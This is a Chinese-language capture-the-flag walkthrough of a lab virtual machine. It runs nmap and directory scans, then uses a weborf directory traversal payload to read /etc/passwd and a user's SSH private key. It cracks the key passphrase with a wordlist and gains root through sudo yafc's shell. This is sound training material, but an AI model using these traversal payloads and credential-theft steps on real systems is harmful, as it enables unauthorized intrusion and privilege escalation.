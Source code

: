 ## 靶机地址

[Proton Drive](https://drive.proton.me/urls/V0CPKF3BZW#Qc8GsNOxJNfn)

![image-20250324175845267](assets/image-20250324175845267.png)



## 信息收集

### nmap扫描

#### 准备阶段

```
mkdir nmapscan
```

![image-20250324175905002](assets/image-20250324175905002.png)

创建文件夹用来存放nmap扫描结果



#### 主机探测

```
nmap -sn 192.168.1.0/24
```

![image-20250324175937025](assets/image-20250324175937025.png)



#### 端口扫描

```
nmap -sT --min-rate 10000 -p- 192.168.1.6 -oA ./nmapscan/ports
```

![image-20250324180022762](assets/image-20250324180022762.png)

开放了：

- 22 ssh
- 80 http
- 8080 http-proxy



#### 提取端口信息

```
ports
```

![image-20250324180108893](assets/image-20250324180108893.png)



#### 详细结果扫描

```
nmap -sC -sT -p 22,80,8080 -O 192.168.1.6 -oA ./nmapscan/detail
```

![image-20250324180504899](assets/image-20250324180504899.png)

分析：

- 22 ssh
- 80 http
- 8080 http-proxy
- webofr



#### UDP扫描

```
nmap -sU --top-ports 20 192.168.1.6 -oA ./nmapscan/udp
```

![image-20250324180610446](assets/image-20250324180610446.png)



### 80端口

#### 访问192.168.1.67

![image-20250324180712062](assets/image-20250324180712062.png)

apache主页

查看源码，无内容



#### dirsearch目录扫描

```
dirsearch -u 192.168.1.6
```

![image-20250324180800607](assets/image-20250324180800607.png)

无结果



#### gobuster目录扫描

```
gobuster dir -u http://192.168.1.6 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

![image-20250324180931539](assets/image-20250324180931539.png)

无结果



### 8080端口

#### 访问192.168.1.6:8080

![image-20250324180916915](assets/image-20250324180916915.png)

weborf/0.12.2



#### 搜索相关漏洞

```
searchsploit weborf
```

![image-20250324181022006](assets/image-20250324181022006.png)

存在目录遍历漏洞



#### 保存漏洞

```
searchsploit -m linux/remote/14925.txt
cat 14925.txt
```

![image-20250324181129420](assets/image-20250324181129420.png)



#### 利用给出的payload

```
/..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
```

![image-20250324181220366](assets/image-20250324181220366.png)

成功读取/etc/passwd

有一个普通用户tim



#### 构造payload读取tim的私钥

```
/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2ftim%2f.ssh%2fid_rsa
```

![image-20250324181409730](assets/image-20250324181409730.png)





#### 保存到本地

```
wget http://192.168.1.6:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2ftim%2f.ssh%2fid_rsa -O id_r
sa
cat id_rsa
```

![image-20250324181444755](assets/image-20250324181444755.png)



### 22端口

#### 修改私钥权限

```
chmod 600 id_rsa
```

![image-20250324181514211](assets/image-20250324181514211.png)



#### 尝试登录

```
ssh tim@192.168.1.6 -i id_rsa
```

![image-20250324181552739](assets/image-20250324181552739.png)

失败

需要密码



#### 利用RSAcrack爆破rsa

```
RSAcrack -k id_rsa -w /usr/share/wordlists/rockyou.txt
```

![image-20250324182159867](assets/image-20250324182159867.png)

得到tim密码

- ilovetim



#### ssh登录

```
ssh tim@192.168.1.6 -i id_rsa
```

![image-20250324182309297](assets/image-20250324182309297.png)

成功登录



## 提权

### 得到第一个flag

```
ls
cat user.txt
```

![image-20250324182333842](assets/image-20250324182333842.png)



### 执行sudo权限

```
sudo -l
```

![image-20250324182415893](assets/image-20250324182415893.png)

无密码执行yafc



### 执行yafc

```
sudo yafc
help
```

![image-20250324182659668](assets/image-20250324182659668.png)

![image-20250324182720280](assets/image-20250324182720280.png)



存在shell



### 执行shell

```
shell
```

![image-20250324182735977](assets/image-20250324182735977.png)

成功提权



### 得到第二个flag

```
cd /root
ls
cat root.txt
```

![image-20250324182754445](assets/image-20250324182754445.png)